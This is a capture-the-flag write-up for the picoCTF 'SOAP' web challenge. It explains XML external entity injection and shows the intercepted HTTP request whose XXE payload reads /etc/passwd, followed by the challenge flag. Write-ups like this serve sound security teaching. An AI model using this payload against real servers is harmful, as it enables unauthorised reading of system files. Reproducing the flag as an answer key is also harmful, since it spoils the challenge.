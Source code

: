 ##Challenge: SOAP

##Category: Web Exploitation

##Description: The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

###Hints:

#####1. XML external entity Injection

The hint gives away the whole gist of the exploit of the challenge: XXE, which is an XML eXternal Entity injection. The idea behind the exploit is that given that a website accepts XML data, it is susceptible to data infiltration, server-side request forgery (SSRF), and many more vulnerabilities. This is because a website user can supply entities, which are essentially variables in the XML language that can reference internal or external data typed out by the user. The way I went about solving the challenge was by first using Burp Suite to intercept the request made when I clicked on the Details buttons on the website. Each time one of the buttons is sent, the website generates XML data for the web server to interpret, creating a "<data>" field in a POST request to the /data directory of the website. Proof that the web server uses XML can also be seen in the xmlDetailsCheckPayload.js file, as it generates the XML code. Going into the intercepted request, I modified the XML form to get /etc/passwd to be leaked by an external entity, displaying the flag along with it:

>POST /data HTTP/1.1
>Host: saturn.picoctf.net:60367
>Content-Length: 61
>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
>Content-Type: application/xml
>Accept: */*
>Origin: http://saturn.picoctf.net:60367
>Referer: http://saturn.picoctf.net:60367/
>Accept-Encoding: gzip, deflate
>Accept-Language: en-US,en;q=0.9
>Connection: close

><?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><data><ID>&xxe;</ID></data>

###Reference: [1](https://portswigger.net/web-security/xxe)

###Flag: picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}

Solved by giggsterpuku
